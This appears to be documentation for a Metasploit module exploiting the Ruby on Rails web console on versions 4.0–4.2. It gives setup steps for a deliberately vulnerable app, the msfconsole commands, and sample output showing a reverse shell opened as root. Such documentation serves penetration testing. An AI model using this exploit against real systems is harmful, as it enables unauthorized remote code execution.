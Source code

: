 ## Description

 This module exploits an IP whitelist bypass vulnerability in the developer web console included with Ruby on Rails 4.0.x and 4.1.x. This module will also achieve code execution on Rails 4.2.x if the attack is launched from a whitelisted IP range.

## Verification Steps

**Prerequisites:**

```
$ gem install rails -v 4.2.6
$ rails new taco
$ cd taco
$ vim config/environments/development.rb
  Add the following line just before the final `end' tag:
  config.web_console.whitelisted_ips = %w(0.0.0.0/0)
$ bundle
$ rails server
```

**Installing nodejs:**

```
sudo apt-get install nodejs
```

**Launch msfconsole:**

1. Do: ```use exploit/multi/http/rails_web_console_v2_code_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [Port]```
4. Do: ```run```

## Sample Output

### Rails version 4.2.6

```
msf > use exploit/multi/http/rails_web_console_v2_code_exec 
msf exploit(rails_web_console_v2_code_exec) > set RHOST 192.168.0.106
msf exploit(rails_web_console_v2_code_exec) > set RPORT 35678
msf exploit(rails_web_console_v2_code_exec) > run

[*] Started reverse TCP handler on 192.168.0.102:4444
[*] Sending payload to /__web_console/repl_sessions/d89c2f96387f4b9dd612c0abb7c06577
[*] Command shell session 1 opened (192.168.0.102:4444 -> 192.168.0.106:35678) at 2017-04-07 04:13:52 +0800

id
uid=0(root) gid=0(root) groups=0(root)
```
